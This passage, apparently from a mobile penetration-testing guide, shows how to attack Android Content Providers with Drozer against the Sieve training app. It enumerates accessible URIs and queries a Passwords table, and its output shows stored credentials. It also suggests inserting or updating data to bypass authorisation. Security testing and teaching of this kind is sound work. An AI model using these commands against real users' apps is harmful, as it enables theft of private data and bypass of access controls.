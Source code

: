 Drozer can **guess and try several URIs**:

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

You should also check the **ContentProvider code** to search for queries:

![[../../../images/image (121) (1) (1) (1).png]]

Also, if you can't find full queries you could **check which names are declared by the ContentProvider** on the `onCreate` method:

![[../../../images/image (564).png]]

The query will be like: `content://name.of.package.class/declared_name`

## **Database-backed Content Providers**

Probably most of the Content Providers are used as **interface** for a **database**. Therefore, if you can access it you could be able to **extract, update, insert and delete** information.\
Check if you can **access sensitive information** or try to change it to **bypass authorisation** mechanisms.

When checking the code of the Content Provider **look** also for **functions** named like: _query, insert, update and delete_:

![[../../../images/image (887).png]]

![[../../../images/image (254) (1) (1) (1) (1) (1) (1) (1).png]]

Because you will be able to call them

### Query content

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w==
-
email: incognitoguy50@gmail.com
```

### Insert content
